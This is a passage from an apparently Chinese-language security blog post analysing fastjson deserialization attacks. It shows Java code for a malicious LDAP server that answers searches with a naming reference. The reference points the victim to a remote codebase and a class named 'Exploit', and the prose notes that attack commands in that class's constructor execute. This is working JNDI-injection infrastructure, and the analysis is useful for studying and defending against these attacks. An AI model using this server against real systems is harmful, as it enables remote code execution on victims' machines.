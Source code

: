 ```java
        }


        /**
         * {@inheritDoc}
         *
         * @see com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor#processSearchResult(com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult)
         */
        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }

        }


        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "Exploit");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference");
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }

    }
}
```

执行可以看到虽然报错，但是依然执行了写在构造函数里的命令

![1569060088328](/../Java%E5%AE%89%E5%85%A8/fastjson%E5%88%86%E6%9E%90/img/1569060088328.png)

可以看到，这里的攻击思路都是通过codebase加载远程对象并且进行实例化来实现的，下一篇分析整理一下加载classpath下存在的类的一些攻击思路
